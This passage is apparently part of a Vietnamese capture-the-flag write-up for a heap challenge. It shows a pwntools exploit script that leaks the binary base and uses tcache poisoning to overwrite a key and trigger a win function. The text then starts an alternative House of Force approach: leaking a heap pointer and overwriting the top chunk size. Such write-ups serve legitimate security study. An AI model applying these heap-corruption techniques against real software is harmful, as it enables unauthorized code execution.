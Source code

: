 ```
    p.sendlineafter(b'> ',b'2')
    p.sendlineafter(b'> ',idx)

def edit(idx,change):
    p.sendlineafter(b'> ',b'3')
    p.sendlineafter(b'> ',idx)
    p.sendafter(b'> ',change)

def remove(idx):
    p.sendlineafter(b'> ',b'4')
    p.sendlineafter(b'> ',idx)

def win():
    p.sendlineafter(b'> ',b'5')

p.recvuntil(b'gift: ')
leak = int(p.recvline()[:-1],16)

exe.address = leak - 0x119a
log.info(f"leak: {hex(exe.address)}")
input()
create(str(1),str(20),b'a')
create(str(2),str(20),b'b')
remove(str(1))
remove(str(2))
edit(str(2),p64(exe.address+0x20204c))
create(str(3),str(20),b'nothing')
create(str(4),str(20),p64(0xCAFEBABE))
win()


p.interactive()
```


1 cách khác là House_of_force như tác giả mong đợi 

- đọc ở đây để biết thêm về kĩ thuật này :  https://hackmd.io/VbHX_YwYTDe5weCsaBtZpA

![image](https://hackmd.io/_uploads/HyhFBY_fJe.png)


ta cần leak địa chỉ heap trước  : 

- ở đây ta sẽ leak như sau : 



    - malloc 2 chunk , free 2 chunk đó , thằng A-B-NULL , suy ra thằng B sẽ chứa fd tới thằng A , ta sẽ dùng hàm view để lấy địa chỉ này 


tiếp theo là cần overwrite size của top chunk với giá trị cực lớn (0xffffffffffffffff)

- tính toán offset giữa target(key) và topchunk 

